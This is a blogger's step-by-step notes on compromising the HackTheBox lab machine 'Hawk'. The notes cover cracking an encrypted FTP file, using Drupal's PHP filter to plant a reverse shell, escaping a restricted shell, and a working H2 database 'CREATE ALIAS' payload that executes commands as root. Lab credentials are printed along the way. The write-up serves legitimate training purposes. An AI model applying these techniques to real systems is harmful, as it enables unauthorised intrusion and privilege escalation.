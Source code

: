 ```yaml
---
title: HackTheBox Notes - Hawk (ft. Procrastination)
category: infosec
date: 2019-02-13
thumbnail: hawk-thumb.png
tags: htb,htb-notes
description:
---
```


Due to my incredible laziness, my last HTB article was five months ago. This is because I can't be bothered to explain stuff in a proper walkthrough of the boxes, so here's something much easier: I'm just posting the notes I was writing down as I was going through the box.

This is probably what I'm going to keep doing for HTB from now on, I have another three boxes that I'll publish when they are retired. But worry not, I promise after those boxes, I'll have much higher quality notes that won't be a confusing and poorly written mess.

I'm also not doing those old thumbnails of the box identicons anymore because those are way to hard to draw on a touchpad.

- - - -

### Nmap Scan
```
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-05 18:11 AEDT
Nmap scan report for 10.10.10.102
Host is up (0.28s latency).
Not shown: 937 closed ports, 60 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 messages
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e4:0c:cb:c5:a5:91:78:ea:54:96:af:4d:03:e4:fc:88 (RSA)
|   256 95:cb:f8:c7:35:5e:af:a9:44:8b:17:59:4d:db:5a:df (ECDSA)
|_  256 4a:0b:2e:f7:1d:99:bc:c7:d3:0b:91:53:b9:3b:e2:79 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome to 192.168.56.103 | 192.168.56.103
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.09 seconds
```

### FTP Server
`ftp://10.10.10.120`

* Allows anonymous login
* Only file in `messages/.drupal.txt.enc`
* Can’t download with `get` for some reason, so let’s just view it

```
ftp> get .drupal.txt.enc -
remote: .drupal.txt.enc
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .drupal.txt.enc (240 bytes).
U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJb
CmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQz
QUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfy
t4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=
226 Transfer complete.
240 bytes received in 0.00 secs (5.8688 MB/s)
ftp>
```
Just a base64 string

* But decoding it makes some gibberish
```
justin@sierra-fc282: ~ # echo
"U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJbCmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQzQUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfyt4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=" | base64 --decode
<random giberish that breaks my mardown parser>
justin@sierra-fc282: ~ #
```

* Now as it turns out, I did in fact download it but I just didn’t see it because it was a hidden file and I was using a normal `ls`…
* Anyway, because of the `.enc` extension, I’m gonna go ahead and assume it’s encrypted with OpenSSL. So now we save the decoded version to a file
`cat drupal.txt.enc | base64 --decode > drupal.b64d.enc`
* Downloaded [this tool to bruteforce the password](https://github.com/glv2/bruteforce-salted-openssl)
* And now we try it with some basic options

```
root@kali:~/Documents/htb/hawk# /opt/file/bruteforce-salted-openssl/bruteforce-salted-openssl -t 6 -f /usr/share/wordlists/rockyou.txt -c aes256 -v 30 drupal.b64d.enc

Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Tried passwords: 14344391
Tried passwords per second: 896524.437500
Last tried password: *7¡Vamos!

Password not found.
The file might have been encrypted with a different cipher or/and a
different digest (e.g. OpenSSL 1.0.x uses the MD5 digest by default
but OpenSSL 1.1.x uses SHA256 by default).
```
Nope. This might take a while…

* Okay let’s try it with a different digest `sha256`

```
root@kali:~/Documents/htb/hawk# /opt/file/bruteforce-salted-openssl/bruteforce-salted-openssl -t 6 -f /usr/share/wordlists/rockyou.txt -c aes256 -d sha256 -v 30 drupal.b64d.enc
Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Tried passwords: 32
Tried passwords per second: inf
Last tried password: hello

Password candidate: friends
```
That was easy. We were not here for a while, I lied

* Now we can decrypt it

```
root@kali:~/Documents/htb/hawk# openssl enc -d -aes256 -salt -in drupal.b64d.enc -out drupal.decrypted -k friends
*** WARNING : deprecated key derivation used.
Using -iter or -pbkdf2 would be better.
root@kali:~/Documents/htb/hawk# cat drupal.decrypted
Daniel,

Following the password for the portal:

PencilKeyboardScanner123

Please let us know when the portal is ready.

Kind Regards,

IT department
```
Neato

### Drupal Web Portal
`http://10.10.10.102`

* Login with `Admin`:`PencilKeyboardScanner123`
* `admin/reports/status` says Drupal version is `7.58`
	*  `/CHANGELOG.txt` says it was patched for `CVE-2018-7600`
* Looks like we gotta upload a good ol’ PHP reverse shell.
	* First we need to allow Drupal to add PHP page snippets. In `admin/modules` tick the `PHP Filter` option
	* Go to `node/add/page` and upload the shellcode
	* You know the rest

### PHP Reverse Shell
* Logged in as `www-data`
* We have access to `/home/daniel/user.txt`. So just get that
- - - -
* Attempted to ssh with a password found in `/var/www/html/sites/default/settings.php ` - `drupal4hawk` with username `daniel`

### SSH Python Client
* `daniel` user uses a Python restricted shell. So yep
* Easy fix `import pty; pty.spawn(‘/bin/bash’)`

### SSH Bash Client
* Logged into mysql server with `drupal`:`drupal4hawk`
	* In `users` table

```
name: admin
pass: $S$DFw163ixD00W55hdCqtvCB13XOTLhZ0pt0FVpFy1Ntmdp5EAOX08
```
The hash is a special `sha512 (Drupal)` hash, so this is probably not where we are supposed to be

* Another database `h2` is running as root. We can access it on `10.10.10.102:8082`
	* But we get denied access because it only accepts connections from localhost, we need to set up a proxy
	* Create a new SSH session with `ssh -D 8080 daniel@10.10.10.102`
	* Setup Firefox to allow SOCKS proxy with `127.0.0.1:8080`
	* Now we can access it
* Looking back at `ps -aux` we see that the process is running without the `-user` or `-pass` args which means we can access it with default credentials
	* But, of course… this doesn’t work
	* [Frequently Asked Questions](http://www.h2database.com/html/faq.html#connect) for `h2` shows that the database may be stored somewhere different
	* Replaced `~/test` with `./data/test` and we’re in

### H2 Web Console
`10.10.10.102:8082`

* Looked for an exploit and [found this](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)
* So in the console you run

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('cat /root/root.txt')
```
And it displays
```
CALL SHELLEXEC('cat /root/root.txt');
PUBLIC.SHELLEXEC('cat /root/root.txt')
54f3e840fe5564b42a8320fd2b608ba0
(1 row, 5 ms)
```
